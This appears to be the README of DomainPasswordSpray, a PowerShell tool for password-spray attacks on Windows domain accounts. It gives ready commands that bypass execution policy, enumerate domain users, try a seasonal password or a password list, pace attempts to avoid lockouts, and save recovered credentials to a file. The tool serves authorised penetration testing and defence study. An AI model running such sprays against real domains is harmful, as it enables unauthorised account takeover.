 # DomainPasswordSpray
DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.
```PowerShell
Invoke-DomainPasswordSpray -Password Winter2016
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt
```PowerShell
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

### Invoke-DomainPasswordSpray Options
```
UserList          - Optional UserList parameter. This will be generated automatically if not specified.
Password          - A single password that will be used to perform the password spray.
PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
OutFile           - A file to output the results to.
Domain            - A domain to spray against.

```
